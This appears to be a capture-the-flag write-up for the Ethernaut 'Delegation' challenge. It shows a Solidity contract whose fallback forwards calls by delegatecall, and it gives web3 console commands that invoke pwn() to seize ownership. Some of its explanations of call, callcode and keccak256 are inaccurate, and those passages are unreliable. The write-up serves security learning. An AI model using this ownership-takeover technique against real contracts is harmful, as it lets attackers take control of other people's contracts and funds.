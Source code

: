 # Delegation

```javascript
pragma solidity ^0.4.18;

contract Delegate {

  address public owner;

  function Delegate(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  function Delegation(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  function() public {
    if(delegate.delegatecall(msg.data)) {
      this;
    }
  }
}
```

From Solidity document:
* `<address>.call(bytes memory) returns (bool, bytes memory)`:
issue low-level **CALL** with the given payload, returns success condition and return data, forwards all available gas, adjustable.
* `<address>.delegatecall(bytes memory) returns (bool, bytes memory)`:
issue low-level **DELEGATECALL** with the given payload, returns success condition and return data, forwards all available gas, adjustable.

I think that is not that clear, here I summary all three call in Solidity:

* call()
    This one will call target function, and move all exec env to callee contract, if there's any valuable declaired in same name, callee contract's valuable will take charge. 
* callcode()
    This one will call target function, and move all target function in callee to caller's env, if there's any valuable declaired in same name, caller contract's valuable will take charge. `msg.sender` in `callcode()` will always be caller's address.
* delegatecall()
    Same as `callcode()`, but `msg.sender` in `delegatecall()` will always be first one `delegatecall()` caller's address. 
    
Therefore, if `Delegation` use `callcode()` in its callback function, when it call its `Delegate` instance, `Delegate` will get `Delegation`'s address as `msg.sender`.

However, if `Delegation` use `delegatecall()` in its callback function just like current state, when `ddelegatecall()` call `Delegate`, there will be `Delegation`'s caller's address, you, in `msg.sender`.

Before we start use `delegatecall()` to call `Delegation`'s `Delegate`'s `pwn()` function, there's still a important point we should concern for it:

How to use `delegatecall()` to call function?

In Solidity, its `Contract ABI Specification` use `keccak256`, also known as `SHA3`, to encrypt the function name, then take only 4 bytes in head as map to find which one has been called.

Careful, although it take only 4 bytes, to make it as hex value, they will append after `0x`, so just slice 10 charaters.

```javascript
contract.owner()
contract.sendTransaction({data:web3.sha3("pwn()").slice(0,10)});
contract.owner()
```
or
```javascript
contract.owner()
web3.eth.sendTransaction({from:player,to:instance,data:web3.sha3("pwn()").slice(0,10),gas: 1111111},function(x,y){console.error(y)});
//The MetaMask Web3 object does not support synchronous methods like eth_sendTransaction without a callback parameter.
contract.owner()
```
